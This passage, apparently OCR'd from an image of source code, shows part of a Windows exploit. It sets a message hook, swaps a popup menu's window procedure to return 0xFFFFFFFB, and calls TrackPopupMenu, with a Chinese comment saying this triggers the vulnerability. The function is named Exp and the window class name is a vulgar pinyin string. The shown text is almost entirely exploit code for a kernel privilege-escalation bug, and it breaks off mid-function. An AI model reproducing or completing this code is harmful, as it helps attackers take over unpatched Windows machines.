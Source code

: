 ```
if ( !v1 || !InsertMenuItemA(v1, 0, 1, (LPCMENUITEMINFOA)&v4) )
      {
        DestroyMenu(v0);
if ( v1 )
          DestroyMenu(v1);
      }
    }
else
      DestroyMenu(v0);
  }
return (int)v9;
}

unsigned int __stdcall sub_4013F3(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam)
{
if ( Msg != 0x1EB )
return CallWindowProcA(lpPrevWndFunc, hWnd, Msg, wParam, lParam);
return 0xFFFFFFFBu;//返回 xFFFFFFFB，触发漏洞
}

LRESULT __stdcall pfnFilterProc(int nCode, WPARAM wParam, LPARAM lParam)
{
if ( *(DWORD *)(lParam + 8) == 0x1EB )
  {
        UnhookWindowsHook(4, pfnFilterProc);
        //设置 PopupMenu 的窗口消息处理函数
        lpPrevWndFunc = (WNDPROC)SetWindowLongA(*(HWND *)(lParam + 12), -4, (LONG)sub_4013F3);
  }
return CallNextHookEx(0, nCode, wParam, lParam);
}

int __stdcall Exp()
{
int v1; // ebx@3
  DWORD v2; // eax@5
int result; // eax@12
  HWND hWnd; // [sp+10h] [bp-58h]@2
signed int v5; // [sp+14h] [bp-54h]@1
  LPVOID lpAddress; // [sp+18h] [bp-50h]@1
struct _SYSTEM_INFO SystemInfo; // [sp+1Ch] [bp-4Ch]@1
  WNDCLASSA WndClass; // [sp+40h] [bp-28h]@1
  v5 = 0;
  lpAddress = 0;
  memset(&SystemInfo, 0, 0x24u);
  memset(&WndClass, 0, 0x28u);
  WndClass.lpfnWndProc = (WNDPROC)sub_4014D2;
  WndClass.lpszClassName = "woqunimalegebi";
  GetNativeSystemInfo(&SystemInfo);
if ( 
SystemInfo.dwOemId != 9
&& (RegisterClassA(&WndClass)
&&(hWnd = CreateWindowExA(0, WndClass.lpszClassName, 0, 0, -1, -1, 0, 0, 0, 0, 0, 0)) !=0) 
)
  {
v1 = 0;
v5 = 1;
    v1 = sub_401306();
    if ( v1 )
    {
        v2 = GetCurrentThreadId();
        SetWindowsHookExA(4, pfnFilterProc, 0, v2);
        TrackPopupMenu((HMENU)v1, 0, 0xFFFFD8F0u, 0xFFFFD8F0u, 0, hWnd, 0);
    }
```